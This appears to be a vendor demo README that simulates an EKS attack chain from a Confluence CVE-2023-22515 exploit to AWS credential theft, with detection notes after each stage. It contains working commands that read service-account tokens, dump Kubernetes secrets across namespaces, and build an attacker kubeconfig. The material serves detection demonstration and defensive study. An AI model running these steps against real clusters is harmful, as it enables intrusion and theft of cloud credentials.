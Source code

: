 ## 🛠️ Orca Security EKS Attack Detection Demo

### 🔥 Scenario Summary:

We simulate a multi-stage cloud attack starting from a vulnerable Confluence Server (**CVE-2023-22515**) running in EKS. The attacker exploits the vulnerability to get a reverse-shell in the pod, uses a misconfigured service account to gain cluster-admin access, pivots to a GitLab Runner pod (configured with AWS credentials), and then uses those credentials to interact with AWS (e.g., S3 access, Crypto miner...).

---

## 🧪 Attacker Flow (Full Kill Chain)

### ✅ Stage 1: Initial Access via Confluence Exploit

- Attacker exploits CVE-2023-22515 (auth bypass + RCE) in Confluence-Server 8.5.0
- Gets shell inside the `confluence` pod

---
### 🛡️ Orca Detection:

Vulnerability Alert: Orca detects CVE-2023-22515 as a critical vulnerability.

Workload Exposure: The Confluence pod is exposed externally — Orca highlights the exposure and potential exploit path.

Malicious Process Behavior: If the attacker spawns an interactive shell, Orca detects anomalous process execution.

---

### ✅ Stage 2: Internal Kubernetes API Access via Service Account Token

Once inside the pod, the attacker extracts the Kubernetes ServiceAccount credentials:

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token > sa.token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace > namespace.txt
```

These files give the attacker:

- `sa.token`: a Bearer JWT for Kubernetes API access
- `ca.crt`: the cluster’s Certificate Authority for TLS verification
- `namespace.txt`: current namespace (e.g., `confluence`)

They also extract the internal Kubernetes API server address from the env variables:

```bash
echo "https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT"
# Usually https://10.100.0.1:443
```

They can now use `curl` inside the pod to interact with the API:

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api
```
---
### 🛡️ Orca Detection:

Toxic Combination Alert: Orca detects that the default ServiceAccount in the confluence namespace is bound to cluster-admin.

RBAC Misconfiguration: Elevated access for a workload-exposed ServiceAccount is flagged.

Access Pattern Monitoring: Usage of the service account to query sensitive resources triggers anomaly alerts if audit logs are integrated.
---

### ✅ Stage 3: Discover GitLab Runner and Steal AWS Credentials

#### 🔍 Step 1: List All Namespaces

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces
```

Search output for lines like `"name":"gitlab-runner"` to find the target namespace.

#### 🔍 Step 2: List Pods in GitLab Runner Namespace

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/pods
```

Search for pod names (look for `"name":"gitlab-runner-xxxxx"`).

#### 🔍 Step 3: Get Pod Environment to Identify Secrets

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/pods/gitlab-runner-xxxxx
```

Look inside for `env` section. You'll see references to:

- Secret: `aws-credentials`
- Keys: `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`

#### 🔍 Step 4: Dump the Secret

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/secrets/aws-credentials
```

Search for base64 values of:

- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`

Decode with:

```bash
echo "<base64>" | base64 -d
```

🎉 You now have AWS credentials — without ever entering the GitLab pod.

---
### 🛡️ Orca Detection:

Lateral Movement Alert: Orca detects access to resources in other namespaces from a compromised SA.

Sensitive Data in Secrets: Orca flags secrets containing AWS keys as critical posture risks.

Cross-namespace Secret Access: Unusual access patterns between unrelated workloads trigger risk indicators.
---

### ✅ Stage 4: Cloud Pivot with Stolen AWS Credentials

On your attacker machine:

```bash
export AWS_ACCESS_KEY_ID=AKIAEXAMPLEKEY
export AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
```

#### Get Caller Identity

```bash
aws sts get-caller-identity
```

#### List Clusters and Get EKS Endpoint

```bash
aws eks list-clusters --region us-east-1
aws eks describe-cluster --name orca-eks-demo --region us-east-1 --query "cluster.endpoint" --output text
```

Now you can generate a valid kubeconfig with the original Confluence service account token and the external EKS API URL.

---
### 🛡️ Orca Detection:

CloudTrail Anomalies: Orca detects AWS credentials being used in abnormal patterns, geographies, or service contexts.

Credential Misuse Detection: The GitLab role is used in unexpected ways, triggering alerts.

Sensitive Asset Access: Orca alerts on S3 reads or IAM actions from compromised identities.

Correlation Across Layers: Orca correlates the use of Kubernetes credentials with subsequent AWS abuse for a unified incident timeline.

---

### ✅ Bonus: Reconfigure `kubectl` on Attacker Machine with Stolen Token

If attacker cannot install `kubectl` inside the Confluence pod, they can copy the token, CA cert, and API server info, then use this script on their own system:

#### `generate_kubeconfig.sh`

```bash
#!/bin/bash

# Usage: ./generate_kubeconfig.sh <path-to-sa.token> <path-to-ca.crt> <EKS_CLUSTER_ENDPOINT>
if [ "$#" -ne 3 ]; then
  echo "Usage: $0 <path-to-sa.token> <path-to-ca.crt> <EKS_CLUSTER_ENDPOINT>"
  exit 1
fi

SA_TOKEN=$(cat "$1" | tr -d '\n')
CA_CERT=$(base64 -w0 "$2")
CLUSTER_ENDPOINT="$3"

cat <<EOF > attacker-kubeconfig.yaml
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority-data: $CA_CERT
    server: $CLUSTER_ENDPOINT
  name: eks-orca-demo
contexts:
- context:
    cluster: eks-orca-demo
    namespace: confluence
    user: attacker
  name: attacker-context
current-context: attacker-context
users:
- name: attacker
  user:
    token: $SA_TOKEN
EOF

echo "✅ Kubeconfig written to attacker-kubeconfig.yaml"
```

Then use it:

```bash
kubectl --kubeconfig attacker-kubeconfig.yaml get pods -A
```